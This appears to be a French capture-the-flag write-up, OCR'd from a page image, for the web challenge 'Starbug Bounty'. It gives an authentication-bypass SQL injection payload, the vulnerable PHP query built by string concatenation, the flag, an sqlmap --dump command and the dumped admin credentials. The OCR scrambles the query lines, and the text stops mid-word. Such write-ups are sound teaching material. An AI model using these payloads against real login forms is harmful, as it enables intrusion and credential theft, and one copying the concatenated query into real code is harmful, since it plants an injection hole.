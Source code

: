 # Web 100 - Starbug Bounty

On détecte une simple injection SQL, il est donc possible de contourner l’authentification avec le
payload suivant.
> Username : ‘ or 1<2 --
> Password : peu importe


En injectant le payload dans le champ “username” de la requête 1 la condition devient vraie et le reste de
la requête est ignorée car elle est précédée d’un commentaire.

>1 - $stmt = $pdo->query("SELECT
password='".$_POST['password']."'");
*
FROM
users
WHERE
username='".$_POST['username']."'
and

> 2 - $stmt = $pdo->query("SELECT * FROM users WHERE username='' or 1<2 --' and password='".$_POST['password']."'");


Nous sommes connectés sur l’interface et nous pouvons donc utiliser le flag qui nous est donné :
**ese{Auth_SqL_1s_s0000_w34k}**


Il était aussi possible d’utiliser SQLMap pour extraire le contenu de la base de données et ensuite se
connecter avec les identifiants récupérés.
> python
sqlmap.py
-u
'http://127.0.0.1/ESE-Epreuves/ESE%20Web%2002%20-
%20Starbug%20Bounty%20-%20Max/Epreuve/' --forms --dbms sqlite --dump

En fournissant les bonnes options à SQLmap telles que le type de base de données, ici SQLITE, on peut
détecter une injection SQL de type UNION. Avec l’option “dump”, l’outil va automatiquement récupérer
toute la base de données.
Attention : SQLMap est un outil assez intrusif, à la fin du CTF nous avions plus de 10 GO de logs sur la
machines hébergeant les challenges.

>Database: SQLite_masterdb
>
>Table: users [3 entries]
>
>+----+----------+------------------------+
>
>| id | username | password|
>
>+----+----------+------------------------+
>
>| 1 | admin | Auth_SqL_1s_s0000_w34k |
>
>+----+----------+------------------------+
>
SQLMap nous ressort la base de données et on peut utiliser les iden